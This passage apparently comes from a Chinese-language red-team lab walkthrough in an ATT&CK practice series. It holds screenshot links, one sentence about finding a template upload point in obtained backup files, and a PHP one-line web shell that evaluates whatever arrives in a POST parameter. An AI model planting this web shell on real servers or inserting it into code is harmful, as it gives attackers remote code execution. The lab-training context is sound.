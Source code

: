 ![image-20231116225452192](./ATT&CK%E5%AE%9E%E6%88%98%E7%B3%BB%E5%88%97%E2%80%94%E2%80%94%E7%BA%A2%E9%98%9F%E5%AE%9E%E6%88%98%EF%BC%88%E4%B8%80%EF%BC%89.assets/image-20231116225452192.png)



```
<?php @eval($_POST['cmd'])?>; 
```

![image-20231116230608453](./ATT&CK%E5%AE%9E%E6%88%98%E7%B3%BB%E5%88%97%E2%80%94%E2%80%94%E7%BA%A2%E9%98%9F%E5%AE%9E%E6%88%98%EF%BC%88%E4%B8%80%EF%BC%89.assets/image-20231116230608453.png)

在拿到的备份文件中，找到模板的上传点
